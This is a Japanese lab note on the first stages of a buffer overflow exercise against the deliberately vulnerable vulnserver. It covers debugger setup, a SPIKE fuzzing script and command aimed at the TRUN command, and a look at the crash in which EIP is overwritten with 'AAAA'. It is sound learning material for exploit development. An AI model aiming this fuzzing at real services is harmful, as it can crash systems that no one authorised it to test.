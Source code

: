 ### 動作確認
`vulnserver.exe`を起動するだけでおk
![[Pasted image 20240725233815.png]]

接続の確認
```sh
nc -nv 192.168.40.47 9999
```
![[Pasted image 20240725233729.png]]

---
### デバッグの準備
`immunity Debugger`でAttachしてデバッグする。
![[Pasted image 20240725233848.png]]

適当に選択してAttachするだけでおｋ
![[Pasted image 20240725233923.png]]

Attach後は一度<font color="#ff0000">▶</font>を選択してブレークモードから抜ける。
![[Pasted image 20240725233956.png]]

---

### SPIKEを使用して脆弱性チェックをする。

`check.spk`
```c:check.spk
s_readline();
s_string("TRUN ");
s_string_variable("A");
```

- `s_readline()` : 接続後に、`Welcome to Vulnerable Server! ....`のレスポンスを受け取るために使用
- `s_string("TRUN ");` : 脆弱な機能が`TRUN `みたいなので、コマンドを設定
- `s_string_variable("A");` : なんでもいいと思う、Aとかでも成功する。（BoF用文字？）

`spk`ファイル作成後、`vulnserver`に対しコマンドを実行
⇒クラッシュしたら成功
```sh
generic_send_tcp 192.168.40.47 9999 ./check.spk A 0
```
![[Pasted image 20240725235740.png]]

アタッチ画面が消え、`vulnserver`は応答しなくなった⇒クラッシュしている。
![[Pasted image 20240725235720.png]]

このとき`EAX`レジスタの値が以下のようになっている。
```
TRUN /.:/AAAAAAAAAAAAAAAAA.......
```
`EAX`は関数の戻り値や命令の引数で入るので、Aが入るのは正常なはず。
**`EBP`（関数のベースアドレス）が`41414141(AAAA)`で上書きされてしまっている。**
**`EIP`（次に呼ばれる命令アドレス）が`41414141(AAAA)`で上書きされてしまっている。**
⇒クラッシュしたのは、次の命令がおかしくなったため（**EIPが上書きされたため**）と推測できる。
![[Pasted image 20240725235816.png]]

---